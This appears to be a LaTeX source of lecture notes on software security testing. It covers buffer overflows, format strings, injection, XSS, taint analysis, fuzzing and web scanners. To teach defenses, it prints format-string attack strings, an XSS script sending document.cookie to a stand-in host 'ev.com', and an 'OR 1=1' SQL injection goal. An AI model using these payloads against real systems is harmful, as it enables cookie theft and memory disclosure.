\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{graphicx}
\usepackage{amssymb}
\usepackage{fancyvrb}
\usepackage{listings}
\lstset{
  basicstyle=\ttfamily,
  mathescape
}
\usepackage{minted}
\setlength\parindent{0pt}
\def\labelitemi{$\cdot$}
\newtheorem{remark}{Remark}
\author{Nicolò Fornari}
\title{Security testing}
\definecolor{mygray}{gray}{0.9}
\begin{document}
\maketitle
\section{Buffer Overflow}
\subsection{Stack and Heap}
The \emph{stack} is the memory set aside as scratch space for a thread of execution. When a function is called, a block is reserved on the top of the stack for local variables and some book keeping data. When that function returns, the block becomes unused and can be used the next time a function is called. The stack is always reserved in a LIFO (last in first out) order; the most recently reserved block is always the next block to be freed. This makes it really simple to keep track of the stack; freeing a block from the stack is nothing more than adjusting one pointer.\\\\
The \emph{heap} is memory set aside for dynamic allocation. Unlike the stack, there's no enforced pattern to the allocation and deallocation of blocks from the heap; you can allocate a block at any time and free it at any time. This makes it much more complex to keep track of which parts of the heap are allocated or free at any given time; there are many custom heap allocators available to tune heap performance for different usage patterns.\\\\
Each thread gets a stack, while there's typically only one heap for the application (although it isn't uncommon to have multiple heaps for different types of allocation).\\\\
The OS allocates the stack for each system-level thread when the thread is created. Typically the OS is called by the language runtime to allocate the heap for the application.\\\\
\textbf{Scope:} the stack is attached to a thread, so when the thread exits the stack is reclaimed. The heap is typically allocated at application startup by the runtime, and is reclaimed when the application (technically process) exits.\\\\
\textbf{Size:} the size of the stack is set when a thread is created. The size of the heap is set on application startup, but can grow as space is needed (the allocator requests more memory from the operating system).\\\\
\textbf{Speed:} the stack is faster because the access pattern makes it trivial to allocate and deallocate memory from it (a pointer/integer is simply incremented or decremented), while the heap has much more complex bookkeeping involved in an allocation or free. Also, each byte in the stack tends to be reused very frequently which means it tends to be mapped to the processor's cache, making it very fast. Another performance hit for the heap is that the heap, being mostly a global resource, typically has to be multi-threading safe, i.e. each allocation and deallocation needs to be - typically - synchronized with "all" other heap accesses in the program.

\subsection{Fixing buffer overflow}
\begin{itemize}
\item Used counted versions of string functions (less performance but there is a boundary check)
\item Use safe string libraries, if available, or C++ strings (eg. fgets instead of gets,snprintf instead of printf)
\item Check loop termination and array boundaries
\item Use C++/STL containers instead of C arrays
\end{itemize}
\textbf{Non executable stack}\\
The OS kernel can be patched so as to forbid the execution of instructions whose address is on the stack.
\begin{itemize}
\item functions trampolines are addede to the stack by gcc for nested functions
\item signals handlers are allocated on the user stack by Linux
\item dynamically generated code may reside on the stack
\end{itemize}
\textbf{Bounds checking in C}\\
The gcc compiler can be patched to perform full array bounds checking: from each pointer expression the base pointer is derived, then for each base pointer the allocated memory is known and can be checked.
\begin{minted}[frame=lines,
]{c}
pp = get_base(p);
n = get_size(pp);
if (p-pp<n)
	*p = *q;
else
	abort("Buffer overflow detected");
\end{minted}
\begin{remark}
The performance costs are substancial (up to $30\times$ slowdown).
\end{remark}
\textbf{Canary words}\\
Canaries or canary words are known values that are placed between a buffer and control data on the stack to monitor buffer overflows. When the buffer overflows, the first data to be corrupted will usually be the canary, and a failed verification of the canary data is therefore an alert of an overflow, which can then be handled, for example, by invalidating the corrupted data.\\\\
\emph{Attacks:} if the position of the canary word is know it may be skipped (difficult to exploit). Moreover if the value of the canary word is known it can be preserved by bufferoverflow.\\\\
\textbf{Conclusions}\\
Code fixing is the ultimate solution but only for known vulnerabilities. Automated solutions have major limitations:
\begin{itemize}
\item They usually require OS kernel and or gcc compiler patching
\item They mai limit the legal C code that can be executed
\item they may not protect the code from heap overflow, function pointers
\item They introduce substantia performance penalties
\end{itemize}
\newpage
\section{String format}
\textbf{Problem.} \\
The attacker can insert formatting instructions that pop (eg. \%s,\%x) or push (eg. \%n) values from/onto the call stack. This is possible if the formatting function has an undeclared number of parameters specified through ellipsis.
\begin{minted}[frame=lines,
]{c}
#include<stdio.h>
int main(int argc,char* argv[]) {
	if (argc > 1)
		printf(argv[1]);
	return 0;
}
\end{minted}
\begin{itemize}
\item \%d pops an integer in decimal format
\item \%x pops an integer in hexadecimal format
\item \%p pops a pointer in hexadecimal format
\item \%c pops a character
\item \%s pops a string
\item \%10\$d pops $10^{th}$ integer
\item \%n number of bytes written so far
\end{itemize}
\textbf{The stack and its role at format strings}\\
The behaviour of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack. What if there is a mismatch between the format string and the actual arguments? Can the program pass to the compiler?
\begin{itemize}
\item \emph{printf()} is definied as a function of variable length of arguments. Therefore by looking at the number of arguemtns everythin looks fine.
\item To find the mismatch the compiler needs to understand how \emph{printf()} works and usually compilers do not do this kind of analysis.
\item Sometimes the format string is not a constant string, it is dynamically generated. Therefore there is no way for the compiler to find the mismatch.
\end{itemize}
Can \emph{printf()} detect the mismatch?
\emph{printf()} fetches the arguments from the stack. Unless the stack is marked with a boundary  \emph{printf()} does not know that it runs out of the arguments provided to it\\\\
\textbf{Vulnerable functions:} syslog, printf, fprintf, sprintf,snprintf
\subsection{Attacks on format string}
\textbf{Crashing the program.}
\begin{verbatim}
printf ("%s%s%s%s%s%s%s%s%s%s%s%s");
\end{verbatim}
For each \%s \emph{printf()} will fetch a number from the stack, treat it as an address and print out the memory contents pointed by this address as a string, until a NULL character is encountered. Since the number fetched might not be an address, the memory pointed by this number might not exist and the program will crash. It is also possible that the number happens to be a good address but the address space is protected and also in this case the program will crash.\\\\
\textbf{Viewing the stack}
\begin{verbatim}
printf("%08x %08x %08x %08x\n");
\end{verbatim}
This instructs the printf function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers.\\\\
\textbf{Writing an integer to nearly any location in the process memory}
\begin{verbatim}
printf("abcde%n",&i);
\end{verbatim}
It causes to write 5 into variable $i$. The same approach of the following attack can be used just replacing \%s with \%n. Using this attack it is possible to overwrite program flags that control access privileges and return address on the stack, function pointers, etc.\\\\
\textbf{Viewing memory at any location}\\\\
We have to supply an address of the memory: we can not change the code, we can only supply the format string. The format string is usually located on the stack. If we encode the target address in the format string, it will be in the stack.
\begin{minted}[frame=lines,
]{c}
int main(int argc, char *argv[]) {
char user_input[100];
// ... other variables and statements
scanf("%s",user_input);
printf(user_input);
return 0;
}
\end{minted}
\newpage
If we can force the printf to obtain the address from the format string we can control the address.
\begin{verbatim}
printf("\x10\x01\x48\x08 %x %x %x %x %s");
\end{verbatim}
The four bytes of the target address are  $\setminus x10 \setminus x01 \setminus x48 \setminus x08$. \%x causes the stack pointer to move towards the format string. Here is how the attack works:
\begin{Verbatim}
 ---------------------------
|          %s              | <--+
|---------------------------    |
|          %x              |    |
|---------------------------    |
|          %x              |    |  
|---------------------------    | user_input[]
|          %x              |    |  
|---------------------------    |
|          %x              |    |
|---------------------------    |
|      0x10014808          | <--+ %s prints what is pointed by this address
|---------------------------
|                          | print this for the 4th %x
|---------------------------
|                          |
|---------------------------
|                          |
|---------------------------
|                          | print this for the 1st %x
|---------------------------
|  Address of user_input[] |
|--------------------------|
\end{Verbatim}
Basically we use \%x to move printf's pointer towards the address that we stored in the format string. Once we reach the destination we pass \%s to printf causing it to print the content at address 0x10014808. the key challenge in this attack is to figure out the distance between \emph{user\_input[]} and the address passed to printf.
\subsection{Countermeasures}
Solutions that do NOT work
\begin{itemize}
\item Remove the \%n feature: it is part of the ANSI C specification and lots of programs need this feature
\item Permit only static format strings: many programs generate format strings dynamically
\item Count the arguments to printf: this is not possible with the C vararg mechanism and a new safe vararg would be incompatible with existing libraries and programs.
\end{itemize}
\newpage
\textbf{Controls.} 
\begin{itemize}
\item Use constant strings as string formats
\item Sanitize user input
\item Use stream operator "$<<$" in C++ rather that functions of the \emph{printf} family
\end{itemize}
\subsection{FormatGuard}
The C preprocessor is used to count the actual number of arguments passed dynamically to printf, raising an intrusion alert and killing the process when an attack is detected.\\\\
\textbf{Limitations.} 
\begin{itemize}
\item Type mismatches are not handled
\item Calls to printf via function pointers are not sanitized
\item Manually constructed stacks of varargs are not sanitized
\item Printf-like functions from other libraries are not sanitized
\end{itemize}
\textbf{Conclusions.} FormatGuard was shown to be effective (few false negatives, no false positives), applicable with minimal compatibility problems, introducing $<2\%$ performance penalties on overall execution.

\section{Integer overflow}
\textbf{Problem.} an implicit or explicit integer type conversion produces unexpected results due to truncation or bit extension; integer operations overflow producing unexpected results.\\\\
\textbf{Controls:}
\begin{itemize}
\item Use unsigned integers if possible
\item Do not mix unsigned and signed integers in operations
\item Use large enough integer types
\item Check explicitly that expected boundaries are not exceeded
\end{itemize}
\newpage
\section{Injecton}
\subsection{SQL injection}
\textbf{Problem.} user provided data is used to form an SQL query (eg. through string concatenation) and the attacker provides malformed data aimed at changing the semantics of the query.\\
\textbf{Controls:} regular expressions, prepared statements, grant access to table only through stored procedures
\subsection{Command injection}
\textbf{Problem.} untrusted user data include commands as interpreter understands, forcing the interpreter to operate beyond its intended functions.\\
\textbf{Controls:}
\begin{itemize}
\item Deny-list: user data including characters ina deny list are rejected
\item Allow-list: only user data matching the character patterns in the allow list are interpreted
\item Quoting: user data transformed (eg. embedded with quotes) to avoid being interpreted as commands
\end{itemize}
\subsection{Error handling}
Example: the attacker provides an invalid file name hence a null pointer is used to perform file operations causing either DoS or disclosure of program and system's internals.\\
\textbf{Controls:}
\begin{itemize}
\item Handle error exceptions in the code
\item Never mask exceptions that may corrupt the program's state
\item Check function return values for errors
\end{itemize}
\newpage
\subsection{XSS}
\textbf{Problem.} \\
User input is directly displayed in an output webpage without any sanitization. the typical attack pattern is:
\begin{enumerate}
\item Identify a vulnerable website
\item Create a URL that submits malicious input
\item Social engineering to induce the victim to click on the URL
\item Victim clicks
\end{enumerate}
\textbf{Controls:} HTML encoding, sanitize user input\\\\
\textbf{Sensitive data sources}\\\\
\begin{tabular}{|c|c|}
\hline 
{\bf Object} & {\bf Properties} \\ 
\hline 
Document & cookie,domain,forms,links,URL \\ 
\hline 
Form & action \\ 
\hline 
Form input & name,value \\ 
\hline 
History & current,next,previous \\ 
\hline 
Select option & selected,text,value \\ 
\hline 
Location and link & hash,host,hostname,href,pathname\\ 
\hline 
Window & status \\ 
\hline 
\end{tabular} 
\subsection{Classification}
{\it Same origin policy:} scripts loaded inside a browser from the same domain can access each other's data/operations but they can not access data/operations belonging to another domain. This prevents leakage of sensitive data to a third party.\\\\
\textbf{Cross-site injection}\\
The attacker injects script code into the pages generated by a web application so that it apparently does not violate same origin policy. Then the script code sends sensitive information to a malicious server.
\begin{minted}[frame=lines,
]{js}
<script>
document.images[0].src = "http:/ev.com/i.jpg?stolencookie="+document.cookie;
</script>
\end{minted}
Data can be transmitted to a malicious host by
\begin{itemize}
\item Setting $document.location$
\item Changing $src$ for an image
\item Automatically submitting a form
\item Using asynchronous $HttpRequest$ messages
\end{itemize}
\textbf{Stored XSS}\\
The attacker stores the malicious script into a data store of the target web application.\\\\
\textbf{Reflected XSS}\\
The attacker stores the malicious script into a link, used by the victim to access a webpage.\\\\
\textbf{CSRF}\\
Example for Cross Site Request Forgery: the victim is logged in his banking account. by visitig a malicious website an invisible $1\times 1$ pixel image or iframe is loaded requesting a money transfer.
\begin{remark}
CSRF exploits the website's trust in the user while Stored XSS exploits the user's trust in the website
\end{remark}
\newpage
\section{Network}
\subsection{SSL and TLS}
\textbf{Problems:}
\begin{itemize}
\item The certificate authority signing the certificate is not validated
\item The signature of the certification authority is not validated for integrity
\item The time validity of the certificate is not checked
\item The certificate is not checked against the certificate revocation list.
\end{itemize}
While authentication checks are mandatory in the https protocol, if programmers use low level SSL/TLS libraries directly they might forget some important authentication check.
\subsection{DNS}
Scenario example: application performs automated software update connecting to a server. Solution: rely on SSL.
\section{Weak passwords}
\textbf{Problems: password intrinsic weakness}
\begin{itemize}
\item Initial p. is weak, dictionary p. accepted
\item Short p. are allowed and long p. are not
\item Alphanumeric-only p. accepted
\item Previous p. are allowed when user changes it
\item Default p. change is not enforced on first login (eg. router)
\end{itemize}
\textbf{Problems - auth weakness}
\begin{itemize}
\item No checks on number of login attempts or user is locked out after too many attempts
\item Login failure messages and response time reveal sensitive information
\item Upon login failure wrong passwords are logged
\item User is not requested to change p. periodically
\item No secure channel/protocol is used
\item Change p. are not reauthenticated
\end{itemize}
\textbf{Problems - password reset mechanism}
\begin{itemize}
\item P. can be reset upon end user request based on weak information
\item Reset p. are specified by the user rather than being delivered securely
\item P. are stored in clear
\end{itemize}

\section{Data storage}
Wrong read/write permissions (eg. world writable)
\begin{itemize}
\item Executable
\item Configuration files
\item DB files
\end{itemize}
Sensitive data is hardcoded: an attacker having access to it can easily perform reverse engineering.\\
Example: /home/apache/config instead of www/html\\
Remark: scrub the memory once secret data is no longer needed.\\\\
\textbf{Information leakage}
\begin{itemize}
\item \textbf{Time:} time measures can leak information (eg. first letter of password right/wrong)
\item \textbf{Error messages:} user name correctness,version information, network addresses,reason for failure, path information
\item \textbf{Stack information:} reported to the user when a function is called with less parameters than expected
\end{itemize}
\section{Access}
\textbf{Problem.}
\begin{itemize}
\item Race conditions: the same files are accessed by different applications. Since the file is accessed by name and not by \emph{handle} it is not locked!
\item Fake files
If the attacker provides a device name the process remains stuck until the device times out (DoS)
\item traversal
\end{itemize}
\textbf{Controls:}
\begin{itemize}
\item Never use a file name for more than one operation. Use a file handle instead
\item Keep applications files in a safe directory
\item Resolve the path before validating
\item Lock files explicitly when first accessed
\item If a file has zero size truncate it to avoid replacement
\item Check if a file happens to be a device,symbolic link or a pièe
\end{itemize}
\section{Race conditions}
The application is crashed by concurrent code that is allowed to access data not protected through mutual exclusion.
\begin{itemize}
\item Time of check (TOC) and Time of use (TOU) should be within a protected time interval.
\item Use locks/mutual exclusion (synchronized)
\item Write reentrant code
\item Use private stores for temporary files and directories
\end{itemize}
\section{Random numbers}
\begin{itemize}
\item PRNG: used for statistical simulation, given the seed the sequence is totally predictable
\item CRNG (Cryptographic pseduo random number generator): the seed is unguessable
\item TRNG (True prng): eg. timestamps of unpredictable events (eg. mouse movements), still they are used just as seeds since they may contain some statistical bias
\end{itemize}
\section{Usability}
Security information is communicated, collected or made modifiable through an interface having quite poor usability.\\
Problem. user select the easy (usually unsecure) answer, without paying attention.\\
Controls:
\begin{itemize}
\item Make security decisions for users whenever possible
\item Treat certification problems as server being inaccessible
\item Adopt progressive disclosure
\item Clearly indicate consequences
\item State password requirements explicitly
\item Hide dangerous security options in deeply nested menus
\end{itemize}
\newpage
\section{Flow analysis}
Flow analysis is a general static analysis framework that can be instantiated in several specific code analyses, among which taint analysis.\\
We can represent a program as a control flow graph. We propagate flow information until a fixed point is reached.\\\\
\textbf{Control flow graph:} $CFG = (N,E,n_e,n_x)$\\
N is a node set. E is the edge set $E \subset N \times N$. $n_e$ entry node, $n_x$ exit node.\\
For conditional statements there will be two successors. The same for loops.
\begin{minted}[frame=lines,linenos
]{php}
<?php $xx = explode(";",$_POST["x"]);
$s = $_POST["y"];
foreach ($xx as $x) {
	$s = " " . $s;
	if (htmlentities($x) == $x)
		$s .= $x;	 }
echo $s;
?>
\end{minted}
\begin{center}

\includegraphics[scale=0.5]{img/g1.jpg}
\end{center}
\textbf{Flow analysis framework}
\begin{itemize}
\item Flow information: set $V$, it is the flow information propagated in the CFG, assigned to $IN[n]$ and $OUT[n]$
\item Transfer function: $f_n(x): V \to V \hspace{2em} OUT[n]= f_n(IN[n])$
\item Confluence (meet) operator $\wedge$: join flow values coming from the OUT of the predecessors (or successors) of current node n\\
$ IN[n] = \wedge_{p \in pred(n)}OUT[p]$
\item Direction of propagation: forward (look at predecessors) or backward (look at successors)
\end{itemize}
Example of inputs: set of values or booleans. For sets we can use union and intersection for the meet operator while for booleans we can use the logical and.\\\\
\textbf{Assumptions:}
\begin{itemize}
\item Identity is a valid transfer function: $OUT[n] = IN[n]$
\item We can replace two nodes with the composition of the two transfer functions $f,g$.
\item $\wedge$ is associative,commutative and idempotent ($x \wedge x = x$)
\item Top element: $\exists T \in V,T \wedge x = x$
\item Transfer function is monotonic. Note that $x \leq y$ means $x \wedge y = x$
\end{itemize}
\textbf{Flow analysis algorithm}
\begin{lstlisting}[frame=lines]
for each node $n$
	$IN[n] = T$
	$OUT[n] = f_n(IN[n])$
end for

while any $IN[n]$ or $OUT[n]$ changes across iteration
	for each node $n$
		$IN[n] = \wedge_{p \in pred(n)}OUT[p]$
		$OUT[n] = f_n(IN[n])$
	end for
end while
\end{lstlisting}
\vspace{1em}
\textbf{Convergence}\\
\textbf{Def} bottom $\perp$ st. $\perp \leq x \forall x$\\
If a bottom element exists convergence descends from monotonicity. If $V$ is finite then $\perp$ exists.\\\\
$IN[n] = T \geq x_1 \geq \hdots x_k$\\
$OUT[n] = f_n(T) \geq f_(x_1) \geq \hdots f_n(x_k)$\\\\
\textbf{Examples of Flow analysis:}
\begin{itemize}
\item Taint analysis
\item Reaching definitions and reachable users
\item Dominators and postdominators
\item Constant propagation
\item Pointer analysis
\end{itemize}
\newpage
\textbf{Complements.}\\
\textbf{Def.} Meet over path. $MOP[n] = \bigwedge_{p\in P_n}f_p(T)$ \\where $P_n$ are all the paths leading to node $n$. The idea is propagating the information over all possible paths, either feasible and infeasible. Basically we consider more information, we do not miss anything but more false alarms (safe but over conservative)\\\\
\textbf{Def.} Exact solution $EX[n] = \bigwedge_{p \in feas(P_n)}f_p(T)$\\
$$ EX[n] \geq MOP[n] \geq FA[n]$$
when transfer functions are distributive  flow analysis produces the MOP solution:
$$ f_n(x \wedge y) = f_n(x) \wedge f_n(y) \implies MOP[n] = FA[n] $$
\subsection{Interprocedural flow analysis}
What happens when there is a function or procedure called by the main?\\\\
\textbf{Def.} an \emph{interprocedural path} is realizable (valid) if, once only call and return nodes are kepts:\\
p is empty or the first return node is immediately preceded by a matching call node and the path obtained after removing these two nodes is in turn realizable.\\
\begin{center}

\includegraphics[scale=0.4]{img/interprocedural.jpg}
\end{center}
Nodes 1,2,3,4,5 are from \emph{main}, at node 2 (as well as node 4) a function is called. We can think of node 2 as two nodes: a call node C2 as successor of 1 and directly linked to 6, a return node R2 successor of 8.
\begin{remark}
Note that unfeasible and unrealizable paths are different.
Example of unfeasible: if we have mutually exclusive conditions it will be impossible to have a path in which both conditions are true.
The latter violates the matching between call and return
\end{remark}
\newpage
\subsubsection{Call string method}
Flow information $x$ is propagated together with the associated call string: $(x,CS)$
\begin{center}

\includegraphics[scale=0.5]{img/g2.jpg}
\end{center}
\textbf{Example 1:} $IN[6] = (x_1,C2),(x_3,C4)$\\\\
\textbf{Example 2:} The meet operator is applied only when call strings are identical.\\\\
$OUT[6] = (y_1,C2),(y_2,C_4)$\\
$OUT[7] = (z_1,C2),(z_2,C4)$\\
$IN[8] = OUT[6] \wedge OUT[7] = (y_1 \wedge z_1,C2),(y_2 \wedge z_2,C4)$\\\\
At return nodes, flow information is propagateed only to call nodes matching the last element of the call string, which is removed.
\subsubsection{Functional method}
A summary transfer function $\varphi_P$ is computed for each procedure $P$ and is used at each node where $P$ is called. The summary transfer functions $\varphi_P$ are known in closed form when $\wedge = \cup$ and transfer function $f_n$ have the following structure:
$$ f_n(x) = GEN[n] \cup (x \setminus KILL[n])$$
The cumulative transfer function is $\varphi_n(x) = GEN[\varphi_n] \cup (x \setminus KILL[\varphi_n])$ where:\\\\
$ GEN[\varphi_n] = (\cup_{p\in pred(n)}GEN[\varphi_p] \setminus KILL[n]) \cup GEN[n]$\\
$ KILL[\varphi_n] = \cap_{p\in pred(n)}KILL[\varphi_p]\cup KILL[n]$
\newpage
\subsection{Taint analysis}
Taint analysis aims at keeping track of tainted variables along the execution paths:
\begin{itemize}
\item {\bf Static taint analysis:} a flow analysis conducted on the CFG providing conservative results
\item {\bf Dynamic taint analysis:} the taint status of variables is updated at run time and execution is interrupted if a tainted variable is used at a security critical statement.
\end{itemize}
The \emph{taint status} of a variable is true if the variable may contain unsanitized user input, false if it is ensured not to contain it.\\\\
Flow  information propagated for taint analysis consists of taint sets, formally $V = \mathcal{P}(X)$, where $X$ is the set of all program variables.\\\\
At a join point a variable is tainted if its status is tainted in any of the incoming edges. As a consequence the meet operator is union, so
\begin{itemize}
\item Top is the empty set: $T \wedge x = x \forall x$
\item Monotonically decreasing flow values correspond to increasingly larger taint sets
\item Bottom is $X$
\end{itemize}
The transfer function for taint analysis has the form:
$$ f_n(x) = GEN[n] \cup (x \setminus KILL[n])$$
$GEN[n] = \{ x | x $ is assigned an input value at statement $n \} \cup \{ x | \exists y: x$ is assigned a value obtained from $y \wedge y \to T\}$\\\\
$KILL[n] = \{x|x$ is sanitized by statement $n \} \cup \{ x| \forall y: x $ is assigned a value obtained from $y \wedge y \to F \}$\\\\

\textbf{Taint analysis algorithm}
\begin{lstlisting}[frame=lines]
for each node $n$
	$IN[n] = \{\}$
	$OUT[n] = GEN[n]$
end for

while any $IN[n]$ or $OUT[n]$ changes across iteration
	for each node $n$
		$IN[n] = \cup_{p \in pred(n)}OUT[p]$
		$OUT[n] = GEN[n] \cup (IN[n] \setminus KILL[n])$
	end for
end while
\end{lstlisting}
\subsection{Dynamic taint analysis}
Code instrumentation is used to store and update the taint status of variables and to interrupt the execution if a tainted variable containing a malicious payload is used at security critical statement (so called taint sink).\\
Instrumentation can be done on source code,byte code and binary code.\\\\
\textbf{Dynamic taint policy}
\begin{itemize}
\item Taint introduction: when variables become tainted
\item Taint propagation: self explanatory
\item Taint checking: detect attacks based on the values of tainted variables
\end{itemize}
\begin{tabular}{|c|c|}
\hline 
{\bf Attac}k & {\bf Taint sink} \\ 
\hline 
Buffer overflow & Return and jump addresses, function pointer, fp offset \\ 
\hline 
String format & Return and jump address, function pointer, sys call arguments \\ 
\hline 
Integer overflow & Integer computations \\ 
\hline 
SQL injection & Function call arguments \\ 
\hline 
Command injection & System call and function call arguments \\ 
\hline 
Error handling & Statements that may cause errors or throw exceptions \\ 
\hline 
XSS & Output statements \\ 
\hline 
File access & File opening and directory trasversal system \\ 
\hline 
\end{tabular} 
\subsection{Comparison}
\begin{tabular}{|c|c|c|}
\hline 
- & {\bf Static} & {\bf Dynamic} \\ 
\hline 
{\bf Results} & No false negatives & Under/over tainting (eg false -ve/+ve) \\ 
\hline 
{\bf Taint check} & False alarms & Precise alarms \\ 
\hline 
{\bf Performance} & No overhead & Major penalties \\ 
\hline 
\end{tabular} 
\newpage
\section{Penetration testing}
Type of pentetration tests:
\begin{enumerate}
\item Authentication
\item Session Management
\item Input Manipulation
\item Output Manipulation
\item Information Leakage
\end{enumerate}
\textbf{Authentication}
\begin{itemize}
\item Brute force and or heuristics to guess the password
\item Bypass authentication using a spoofed token
\item Replay auth info eavesdropped on the network
\end{itemize} 
Prerequisites: determine the maximum login attempts allowed, the login/idle timeout, acquire user information\\\\
\textbf{Session management}
\begin{itemize}
\item Hijack the session of another user and gather data or submit excessive or invalid input
\item Replay submissions made by another user
\item Submit direct URL requests with heuristically guessed session IDs
\end{itemize}
Prerequisites: determine the maximum number of concurrent sessions, identify cookie,hidden fields or URL parameters used for session management.\\\\
\textbf{Input manipulation}\\
\begin{itemize}
\item Use exceptionally long character sequences for inputs of string type
\item Injectio system commands
\item Inject javascript or server side include code
\item Use URL or UNICODE encoding to perform sys/SQL/JS/SSI injection
\item Provide unauthorized paths with inputs requiring a file or directory
\item Modify cookies or hidden fields or http header
\item Provide invalid input to trigger the execution of error code
\end{itemize}
Prerequisites: determine the limitations on input variable length, protocol messages, data types and formats.\\\\
\newpage
\textbf{Output manipulation}
\begin{itemize}
\item Retrieve and manipulate cookies or hidden fields
\item Retrieve and manipulate cached information, serialized objects
\item Modifiy information stored in temporary files
\end{itemize}
Prerequistes: identify where the application output is stored on the client side\\\\
\textbf{Information leakage}
\begin{itemize}
\item Find useful information in html code
\item Examine messagges to obtain information about the internals of the application
\end{itemize}
Prerequistes: make assumptions about the technologies and programming environment used to develop the application.
\newpage
\section{Whitebox fuzzing}
\textbf{Def. blackbox fuzzing:} to trigger a bug, such as buffer overflow, by randomly mutating well formed program inputs\\\\
\textbf{Def. whitebox fuzzing:} to execute all feasible paths by means of symbolic execution
\subsection{Symbolic execution}
\textbf{Def. symbolic execution:} is a means of analyzing a program to determine what inputs cause each part of a program to execute. An interpreter follows the program, assuming symbolic values for inputs rather than obtaining actual inputs as normal execution of the program would.
\begin{minted}[frame=lines,
]{c}
int testme(int x) {
	int y = x+3;
	if (y==13)
		abort();
	return 0;		
}
\end{minted}
\begin{center}
\begin{tabular}{|c|c|}
\hline 
Concrete state & Symbolic state \\ 
\hline 
$x=0$ & $x=x_0$ \\ 
\hline 
$y=3$ & $y=x_0+3$ \\ 
\hline 
\end{tabular} 
\end{center}
\begin{enumerate}
\item Execute a random test case
\item Collect symbolic constraints along the concretely executed path
\item Negate one or more branch condition in the path constraint
\item Use a constraint solver to generate a new test input for the negated constraint
\item Execute a new test cae, covering a new path. Iterate from 2.
\end{enumerate}
\textbf{Problem.} the constraint solver may not be powerful enough to determine concrete values that satisfy the negated path constraint. If necessary some constraints must be replaced with concrete values. In particular semplification may be necessary whenever non linear constraints  are involved or black box external functions are called.\\\\
\textbf{Properties}
\begin{itemize}
\item Incompleteness: dynamic symbolic execution is complete only if the constraint solver can successfully solve all constraints without semplification
\item Approximation: an input satisfying a simplified path condition is not ensured to execute the path of interest (divergence)
\item Soundness: since generated tests are executable revealed faults are real faults
\end{itemize}
%\textbf{Runtime error:} the condition that produces a run time error (eg. array out of bound, division by zero) is %added to the path condition and a solution is searched\\\\
%\textbf{Assertions:} negated assertions are added to the path condition
\section{Web scanners}
\subsection{Ardilla}
There are different approaches to identify SQLi and XSS. Each of these has its own merit but also offers oppurtunities for improvement.\\
{\bf Traditional approaches:}
\begin{itemize}
\item Defensive coding is error-prone and requires rewriting existing software to use safe libraries
\item Static analysis tools can produce false warnings
\item Dynamic monitoring incur runtime overhead and does not detect vulnerabilities until the code has been deployed
\item Blackbox test generation does not take advantage of the application's internal
\end{itemize}
ARDILLA is a whitebox testing tool designed for testing PHP applications before deployment. Its core parts are:
\begin{itemize}
\item Input generator: it uses concrete and symbolic execution. It automatically and iteratively creates new inputs by negating the one of the observed constraints and solving the modified constraint system.
\item Vulnerability detection: it is based on dynamic taint analysis. It check whether tainted data can reach sensitive sinks.
\item Taint propagation: it tracks the flow of tainted data through the database
\item Attack generator: it uses a library of SQLi and XSS attack patterns
\end{itemize}
{\bf Limitations:} ARDILLA can only generate attacks for a sensitive sink if the input generator creates an input that reaches the sink. However effective input generation is challenging, complicated by its dynamic language features and execution model.
\subsection{SecuBat}
SecuBat has a flexible architecture that consists of multithreaded crawling, attack, analysis components.
\begin{itemize}
\item Crawler: multiple worker threads,drop external links and max link depth, number of pages, time
\item Attacker: extract form from pages,select and inserts attacks, submits forms
\item Analyzer: keywords in the response page HTML, attack specific response criteria
\end{itemize}
\section{String solver - HAMPI}
HAMPI is a solver for string constraints over fixed size string variables. Hampi constraints may contain context free language definitions and operations and the mebership predicate. \\
{\bf Example:} find a string $v$ of size 12 characters such that the SQL query "SELECT msg FROM messages WHERE topicid=$v$" is a syntactically valid SQL statement and that the query contains the substring "OR 1=1".\\
HAMPI works in four steps:
\begin{enumerate}
\item Normalize the input constraints and generate \emph{core string constraints}\\
eg. $v\in R$ where $v$ is a fixed-size string variable and $R$ is a regular expression.
\item Translate the core strings into a quantifier-free logic of bit-vectors. A bit vector is a fixed-size, ordered list of bits
\item Pass the bit-vector constraints to a STP
\item Decode the output to a string solution if the STP reports that the constraints are satisfiable
\end{enumerate}
{\bf Example:}
\begin{verbatim}
var v:6..12; // size is 6 to 12 characters

cfg SqlSmall := "SELECT " (Letter)+ " FROM " (Letter)+ " WHERE " Cond;
cfg Cond := Val "=" Val |  Cond " OR " Cond;
cfg Val := (Letter)+ | "'" (LetterDigit)* "'" | (Digit)+;
cfg LetterDigit := Letter | Digit;
cfg Letter := ['a'-'z'];
cfg Digit := ['0'-'9'];
reg SqlSmallFixedSize := fixsize(SqlSmall,53);

var q := concat("SELECT msg FROM messages WHERE topicid='", v, "'");
assert q in SqlSmallFixedSize;
assert q contains "OR '1'='1'";
\end{verbatim}
\end{document}
